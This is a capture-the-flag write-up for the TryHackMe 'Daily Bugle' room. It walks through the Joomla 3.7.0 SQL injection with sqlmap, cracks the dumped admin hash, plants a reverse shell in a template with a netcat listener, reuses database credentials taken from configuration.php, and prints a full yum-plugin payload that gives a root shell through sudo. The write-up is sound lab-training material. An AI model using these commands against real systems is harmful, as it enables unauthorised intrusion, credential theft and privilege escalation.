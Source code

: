 # DailyBugle

[Link to the room](https://tryhackme.com/room/dailybugle)

## Let's start

The first question is about who robbed the bank, the answer is in the first article of the webpage: `spiderman` lul.

Next the Joomla version, i just checked `/administrator/manifests/files/joomla.xml` to get that the version being used is `3.7.0`. Looking it in `searchsploit` looks like we can work with that:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit joomla 3.7.0          
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

According with the exploit information is a blind sql injection. Lets use `sqlmap` then as it is described:

```
sqlmap -u "http://<MACHINE_IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
After a while i was tired of waiting and used this https://github.com/stefanlucas/Exploit-Joomla and got the admin credentials:
```
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''] 
```

To check the hash type i used `hashid`:
```
┌──(kali㉿kali)-[~]
└─$ hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
I could have used `hashcat` with the `-m 3200` parameter but i ended up using `john --wordlist=/home/kali/rockyou.txt hashes.txt` and after a while i got the password: `spiderman123` cool.

## Getting access

Now i can login to the admin page but what i really want is a reverse shell. If i go to templates and click in one of the available one to edit the `index.php` file (Url of the file i edited: http://<MACHINE_IP>/administrator/index.php?option=com_templates&view=template&id=503&file=aG9tZQ==) with a reverse shell. Now setting up `netcat`: `nc -lnvp 8080` and visiting http://<MACHINE_IP>/templates/beez3/ gave me a shell nice.

## Privesc to user

Now we need to get privs, i ran `linpeas` and some maunal enumeration and got some interesting things:
```
[+] Checking sudo tokens
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens
/proc/sys/kernel/yama/ptrace_scope is enabled (0)

[+] Users with console
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
root:x:0:0:root:/root:/bin/bash

[+] Files with capabilities (limited to 50):
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep

[+] Unexpected in root
/.autorelabel

[+] Mails (limit 50)
9244504    0 -rw-rw----   1 jjameson mail            0 Dec 14  2019 /var/mail/jjameson
9244504    0 -rw-rw----   1 jjameson mail            0 Dec 14  2019 /var/spool/mail/jjameson

bash-4.2$ hostnamectl
   Static hostname: dailybugle
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 4fc91dda78404e5d84ba62e3cbe3a722
           Boot ID: e823ad0ff3564c759435c805bf34f7b2
    Virtualization: xen
  Operating System: CentOS Linux 7 (Core)
       CPE OS Name: cpe:/o:centos:centos:7
            Kernel: Linux 3.10.0-1062.el7.x86_64
      Architecture: x86-64

```

But what was really helpful was the `/var/www/html/configuration.php` file and this database related variables:
```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';
public $live_site = '';
public $secret = 'UAMBRWzHO3oFPmVC';
```

I tried that password with the `jjameson` user and it worked yey. So now we have the user credentials: `jjameson:nv5uz9r3ZEDzVjNu` and we can get the flag:
```
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
**********************
```

## Privesc to root

Well the first thing i tried was `sudo -l` and got something funny:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
So i can use `yum` as `sudo`. According with https://gtfobins.github.io/gtfobins/yum/ that is exploitable so i tried the custom plugin method:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
After executing that i got a root shell and was able to get the flag:
```
sh-4.2# cat /root/root.txt 
**********************
```
